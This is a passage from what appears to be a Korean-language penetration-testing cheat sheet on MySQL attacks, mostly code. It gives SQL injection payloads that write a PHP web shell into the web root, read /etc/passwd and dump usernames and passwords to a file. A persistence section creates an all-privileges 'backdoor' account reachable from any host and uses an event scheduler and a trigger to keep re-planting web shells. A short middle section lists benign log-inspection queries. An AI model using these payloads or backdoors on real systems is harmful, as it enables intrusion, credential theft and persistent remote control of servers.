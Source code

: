 
## 🛠️ 고급 MySQL 공격 기법

### 📊 SQL Injection과 연계

```bash
# 웹 애플리케이션의 SQL injection에서 파일 쓰기
' UNION SELECT 1,2,'<?php system($_GET["cmd"]); ?>',4 INTO OUTFILE '/var/www/html/inject.php'--

# LOAD_FILE을 통한 파일 읽기
' UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4--

# INTO OUTFILE을 통한 데이터 추출
' UNION SELECT 1,2,3,concat(username,':',password) FROM users INTO OUTFILE '/tmp/creds.txt'--
```

### 🔍 MySQL 로그 분석

```bash
# 쿼리 로그 확인 (활성화된 경우)
SHOW VARIABLES LIKE 'general_log';
SHOW VARIABLES LIKE 'general_log_file';

# 에러 로그 확인
SHOW VARIABLES LIKE 'log_error';

# 슬로우 쿼리 로그
SHOW VARIABLES LIKE 'slow_query_log';
SHOW VARIABLES LIKE 'slow_query_log_file';

# 바이너리 로그 (복제 환경)
SHOW VARIABLES LIKE 'log_bin';
SHOW MASTER STATUS;
```

### 🎭 MySQL 지속성 및 백도어

```bash
# 새 사용자 생성 (관리자 권한)
CREATE USER 'backdoor'@'%' IDENTIFIED BY 'BackdoorPass123!';
GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%' WITH GRANT OPTION;
FLUSH PRIVILEGES;

# 이벤트 스케줄러를 통한 지속성 (MySQL 5.1+)
SET GLOBAL event_scheduler = ON;

DELIMITER $$
CREATE EVENT backdoor_event
ON SCHEDULE EVERY 1 HOUR
DO
BEGIN
    SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/persistent.php';
END$$
DELIMITER ;

# 트리거를 통한 지속성
CREATE TRIGGER backdoor_trigger
AFTER INSERT ON some_table
FOR EACH ROW
    SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/trigger.php';
```

---